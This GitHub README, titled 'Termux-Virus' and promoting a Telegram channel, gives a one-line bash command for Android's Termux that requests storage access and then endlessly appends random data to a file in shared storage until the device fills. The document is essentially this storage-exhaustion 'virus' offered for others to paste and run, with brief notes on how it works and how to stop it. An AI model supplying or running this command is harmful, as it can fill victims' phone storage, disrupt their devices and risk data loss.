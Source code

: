 # Termux-Virus

⚠ **Warning**: Run at your own risk.

Join My Channel: [SG_Modder1](https://t.me/SG_Modder1)

😈 **2024 New Termux Virus By Me** 😈

👨‍💻 **Command 👇👇👇** 


```bash
termux-setup-storage && if [ -d "/storage/emulated/0" ]; then while true; do dd if=/dev/urandom of="/storage/emulated/0/device.bin" bs=1M conv=notrunc oflag=append > /dev/null 2>&1 && echo "🟩"; done; else echo "Give storage permissions."; termux-setup-storage; fi
```

## ⭐️ HOW IT WORKS ⭐️

👨‍💻 This command automatically generates a single file and continuously increases its size until you force stop Termux.


## 🛑 HOW TO STOP IT 🛑


You can stop the script in two ways:

1. **Using Ctrl + C**:
   - Simply press `Ctrl` and `C` keys together in your Termux terminal to terminate the script.
